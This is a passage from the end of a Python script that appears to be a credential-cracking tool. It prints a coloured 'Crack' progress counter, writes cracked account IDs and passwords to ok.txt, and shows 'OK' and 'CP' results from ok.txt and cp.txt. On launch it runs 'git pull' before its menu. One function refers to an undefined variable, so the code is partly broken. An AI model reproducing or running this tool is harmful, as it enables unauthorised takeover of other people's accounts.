					if fl.get("id") in open("ok.txt").read():
						break
					else:
						open("ok.txt","a+").write(
						"%s • %s\n"%(fl.get("id"),i))
					break
				else:continue
					
			self.ko+=1
			print("\r\x1b[0;33m[\x1b[0;37mCrack\x1b[0;33m]\x1b[0;37m %s/%s \x1b[0;32m[\x1b[0;37mOK : %s\x1b[0;32m] \x1b[0;33m[\x1b[0;37mCP : %s\x1b[0;33m]\x1b[0;37m"%(self.ko,len(self.fl),len(self.ada),len(self.cp)), end=' ');sys.stdout.flush()
		except:
			self.main(fl)

### RESULT ###

def results(Dapunta,Krahkrah):
        if len(Dani) !=0:
                print(("[OK] : "+str(len(Dapunta))))
        if len(Krahkrah) !=0:
                print(("[CP] : "+str(len(Krahkrah))))
        if len(Dani) ==0 and len(Krahkrah) ==0:
                print("\n")
                print((k+"["+p+"!"+k+"]"+p+" No Result Found"))

def ress():
    os.system("clear")
    banner()
    print((k+"\n[ "+p+"Result Crack"+k+" ]"+p))
    print((k+"\n[ "+p+"OK"+k+" ]"+p))
    try:
        os.system("cat ok.txt")
    except IOError:
        print((k+"["+p+"!"+k+"]"+p+" No Result Found"))
    print((k+"\n[ "+p+"CP"+k+" ]"+p))
    try:
        os.system("cat cp.txt")
    except IOError:
        print((k+"["+p+"!"+k+"]"+p+" No Result Found"))
    input(k+"\n[ "+p+"Back"+k+" ]"+p)
    menu()

if __name__=="__main__":
	os.system("git pull")
	menu()
